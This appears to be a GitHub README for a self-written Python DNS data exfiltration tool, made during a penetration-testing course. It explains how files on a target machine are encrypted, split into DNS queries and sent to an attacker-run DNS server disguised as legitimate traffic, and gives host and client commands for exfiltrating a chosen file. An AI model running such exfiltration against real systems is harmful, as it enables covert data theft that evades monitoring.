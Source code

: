 # A lightweight, easy-to-use, DNS data exfiltrator
As I was plowing through the INE eJPT course, I ran into a DNS data exfiltrator that I thought was annoying to use. So I rolled my own. This is the result. I am open to suggestions, critique and questions. I learned a lot from building this, both about the DNS protocol and how data exfiltration works and some neat tricks in Python. I hope it'll benefit you in your (legal!) endeavors.

The way this script works is by reading, and encrypting, the to-be-exfiltrated file. The encrypted file contents is then split up into packets of 32 bytes (by default) as DNS queries cannot be greater than 63 octets. The encrypted packets are then sent to the host as the queried FQDN. The host will then receive the DNS query with the encrypted packet, respond with a valid DNS response, paste the packets back together to form the file and decrypt its contents. Et voila, an exfiltrated file.

The data that is being exfiltrated is encrypted using AES256 symmetric encryption. It is therefore important that you set the same seed phrase or password on both the host and client.

## Installation
Just clone/download the script from this Git repo and run the script as instructed below.

## Dependencies / Requirements
* Python 3.8+
* PyCryptodome: `pip3 install pycryptodome`

## Usage
The script can be run in two modes: `host` or `client`. The host mode should be used on your own machine, where the data is being exfiltrated __to__. The client mode should be run on your target's machine, where the data is being exfiltrated __from__. 

### Host
Running the script in host mode will run a DNS server on udp/53, which is built specifically to receive exfiltrated data from the script in client mode and respond accordingly with a standard DNS reponse in order to further mask the traffic as being legitimate. For example:
```
python3 main.py -mode host -hostip "127.0.0.1" -password "s3cr3tp4ssw0rd"
```

This will start a DNS server on UDP port 53 (default, can be changed) and use the seed phrase specified by the `-password` argument to decrypt the received data.

### Client
On your target machine, copy-paste / install the script and run it. For example:
```
python3 main.py -mode client -dest "your_public_machine_ip" -password "s3cr3tp4ssw0rd" -file "/path/to/the/file/you/want/to/exfil"
```

When executed on your target's machine, the script will open up the specified `-file`, encrypt the data with the provided `-password` seed phrase and send over the encrypted file contents through DNS queries to the specified `-dest` IP address / host name (this should be the IP where you are running the script in host mode).

### More help on arguments and options
```
python3 main.py -h
```
